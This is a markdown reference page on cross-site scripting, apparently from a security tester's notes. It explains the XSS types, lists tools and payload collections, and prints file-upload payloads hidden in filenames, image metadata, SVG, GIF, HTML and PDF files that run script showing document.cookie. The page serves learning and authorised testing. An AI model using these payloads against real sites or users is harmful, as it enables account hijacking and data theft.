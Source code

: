 ```yaml
---
description: Below are some references for the Cross-site scripting attacks.
---
```


# **Cross-site scripting (XSS)**

### **Concept**

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

[https://www.youtube.com/watch?v=EoaDgUgS6QA](https://www.youtube.com/watch?v=EoaDgUgS6QA)

[https://www.youtube.com/watch?v=gkMl1suyj3M](https://www.youtube.com/watch?v=gkMl1suyj3M)

### **Types of XSS's**

* Reflected cross-site scripting.
* Stored cross-site scripting. \[Blind XSS comes under S-XSS)
* Document Object Model-based cross-site scripting

### **[Reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected)**

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

### **[Stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored)**

Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. Stored XSS allows potential attackers to inject client-side scripts directly onto target servers. This is not just a single user issue, however, it affects everyone who has access to these servers. Once attackers find a vulnerability in the web application, they can inject their script and wait for an unsuspecting target to fall into their trap. Sites that allow their users to share content (like blogs or social networking sites) are often the most targeted. The injected script is permanently stored on the now infected servers and allows the attacker to set their targets up to receive the malicious script from the servers when they make a request.

### **[Blind Cross-site scripting](https://medium.com/@R0X4R/introduction-to-blind-xss-417dcf9c842c)**

Blind XSS vulnerabilities are a variant of persistent XSS vulnerabilities. They occur when the attacker input is saved by the web server and executed as a malicious script in another part of the application or in another application. For example, an attacker injects a malicious payload into a contact/feedback page and when the administrator of the application is reviewing the feedback entries the attacker’s payload will be loaded. The attacker input can be executed in a completely different application (for example an internal application where the administrator reviews the access logs or the application exceptions).

### **[Document Object Model-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based)**

DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`. This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts.

### **Automation XSS**

[https://github.com/theinfosecguy/QuickXSS](https://github.com/theinfosecguy/QuickXSS)

### **Tools**

[https://xsshunter.com/features](https://xsshunter.com/features)
The Best tool for Blind XSS


[https://github.com/ssl/ezXSS](https://github.com/ssl/ezXSS)
Has 2fa, email reports, share reports feature


[https://knoxss.me/](https://knoxss.me/)
Knoxss


[https://www.irongeek.com/homoglyph-attack-generator.php](https://www.irongeek.com/homoglyph-attack-generator.php)

[https://portswigger.net/burp/documentation/collaborator](https://portswigger.net/burp/documentation/collaborator)

### **XSS via file upload payloads**

**XSS in a filename**

```markup
"><img src=v onerror=prompt(xss);>.jpeg
```

#### **Metadata (exit tool)**

```markup
exiftool -Artist=’ “><img src=1 onerror=alert(document.domain)>’
brute.jpeg
```

#### **SVG content XSS (save the below content in SVG file)**

```markup
<svg xmlns="http://www.w3.org/2000/svg"
onload="alert(document.domain)"/>
```

#### **Gif extension XSS (save the below content in gif file)**

```markup
GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
```

#### **Html extension (save the below content in HTML file)**

```markup
<!DOCTYPE html>
<html>
<head>
<title>XSS</title>
</head>
<body>
<script type="text/javascript">alert(document.cookie)</script>
<script>prompt(1);</script>
</body>
</html>
```

#### **PDF extension (When content-type is not checked and magic bytes and file extensions are being checked).**

```markup
%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<img src=x onerror=alert(document.cookie)>
```

### **Reference's**

[https://brutelogic.com.br/blog/](https://brutelogic.com.br/blog/)

[https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

[https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)

[https://t.co/7O45xvRMf4?amp=1](https://t.co/7O45xvRMf4?amp=1)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

[https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

[https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

[https://github.com/s0md3v/AwesomeXSS](https://github.com/s0md3v/AwesomeXSS)

